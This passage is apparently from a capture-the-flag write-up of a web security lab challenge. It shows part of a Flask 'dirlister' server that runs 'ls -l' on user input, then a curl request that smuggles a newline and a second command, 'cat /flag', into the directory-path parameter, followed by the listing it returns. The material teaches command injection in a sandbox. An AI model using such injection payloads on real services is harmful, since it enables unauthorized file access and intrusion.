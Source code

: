 ```py title="/challenge/server" showLineNumbers

    return f"""
        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form action="/adventure"><input type=text name=directory-path><input type=submit value=Submit></form>
        <hr>
        <b>Output of {command}:</b><br>
        <pre>{result}</pre>
        </body></html>
        """


os.setuid(os.geteuid())
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

This challenge filters out most of the characters used in command injections.

### Command injection
#### New line (`\n`)

If we use a new line character (`\n`), we can work our way around this challenge.

```
## Request:
curl "http://challenge.localhost:80/adventure?directory-path=/\n cat /flag"

## Resultant command:
ls -l /
cat /flag
```

```
hacker@web-security~cmdi-6:/$ curl "http://challenge.localhost:80/adventure?directory-path=/%0A%20cat%20/flag"

        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form action="/adventure"><input type=text name=directory-path><input type=submit value=Submit></form>
        <hr>
        <b>Output of ls -l /
 cat /flag:</b><br>
        <pre>total 64
lrwxrwxrwx    1 root root    7 Apr  4 02:03 bin -> usr/bin
drwxr-xr-x    2 root root 4096 Apr 15  2020 boot
drwxr-xr-x    1 root root 4096 Jun 11 03:00 challenge
drwxr-xr-x    6 root root  380 Jun 11 03:00 dev
drwxr-xr-x    1 root root 4096 Jun 11 03:00 etc
-r--------    1 root root   58 Jun 11 03:00 flag
drwxr-xr-x    1 root root 4096 May  1 03:58 home
lrwxrwxrwx    1 root root    7 Apr  4 02:03 lib -> usr/lib
lrwxrwxrwx    1 root root    9 Apr  4 02:03 lib32 -> usr/lib32
lrwxrwxrwx    1 root root    9 Apr  4 02:03 lib64 -> usr/lib64
lrwxrwxrwx    1 root root   10 Apr  4 02:03 libx32 -> usr/libx32
drwxr-xr-x    2 root root 4096 Apr  4 02:03 media
drwxr-xr-x    2 root root 4096 Apr  4 02:03 mnt
drwxr-xr-x    1 root root   16 Oct 26  2024 nix
drwxr-xr-x    1 root root 4096 May  1 03:58 opt
dr-xr-xr-x 2327 root root    0 Jun 11 03:00 proc
drwx------    1 root root 4096 May  1 03:58 root
```
